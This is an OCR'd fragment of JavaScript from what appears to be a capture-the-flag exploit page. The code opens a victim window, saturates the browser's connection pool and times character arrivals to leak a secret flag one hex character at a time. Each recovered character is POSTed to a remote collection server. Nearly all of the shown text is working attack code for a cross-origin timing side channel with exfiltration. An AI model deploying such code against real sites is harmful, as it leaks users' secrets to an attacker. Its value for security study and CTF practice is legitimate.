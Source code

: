 ```html
        w.location = `${VICTIM_URL}#${hex}`;
        L('triggered victim hashchange');
    }

    async function reportFlag(newChar) {
        flag += newChar;
        document.getElementById('flag-text').textContent = flag;
        console.log(`🎯 Discovered flag character: ${newChar}`);
        console.log(`📍 Current flag: ${flag}`);

        // Report to remote server
        try {
            await fetch(`http://${BASE}/flag`, {
                method: 'POST',
                headers: { 'Content-Type': 'application/json' },
                body: JSON.stringify({ char: newChar, flag: flag }),
                mode: 'cors'
            });
            L(`✓ Reported character '${newChar}' to server`);
        } catch (err) {
            L(`✗ Failed to report character '${newChar}': ${err.message}`);
        }
    }

    async function prep() {
        await wsEnsure();
        w = open(VICTIM_URL); await Z(12000);
        L('victim opened; WS ready');
    }

    async function fill() {
        times.clear();
        const N = +document.getElementById('fill').value || 254;
        for (let i = 0; i < N; i++) holdLong();
        const fuse = +document.getElementById('fuse').value || 5000;
        holdFuse(fuse);
        L(`holders=${N} + fused; fuse in ${fuse}ms on ${BASE}`);
    }

    function analyze() {
        // Build ordered arrays for the characters we actually saw
        const seen = [...times.entries()].sort((a, b) => HEX_CHARS.indexOf(a[0]) - HEX_CHARS.indexOf(b[0]));
        const chars = seen.map(([c]) => c);
        const t = seen.map(([, ts]) => ts);

        // Print raw timeline (useful for debugging)
        const t0 = t[0];
        L('arrivals (char@Δms): ' + seen.map(([c, ts]) => `${c}@${(ts - t0).toFixed(0)}`).join(', '));

        // Compute gaps between consecutive characters we have
        const gaps = [];
        for (let i = 0; i < seen.length - 1; i++) {
            gaps.push({ i, between: `${chars[i]}-${chars[i + 1]}`, ms: t[i + 1] - t[i] });
        }
        L('gaps(ms): ' + gaps.map(g => `${g.between}:${g.ms.toFixed(0)}`).join(' | '));

        // Robust pick: max gap; require it to be >= max(minGap, median + 3*MAD)
        const minGap = +document.getElementById('mingap').value || 50;
        const msList = gaps.map(g => g.ms).sort((a, b) => a - b);
        const median = msList[Math.floor(msList.length / 2)] || 0;
        const medAbsDevs = msList.map(x => Math.abs(x - median)).sort((a, b) => a - b);
```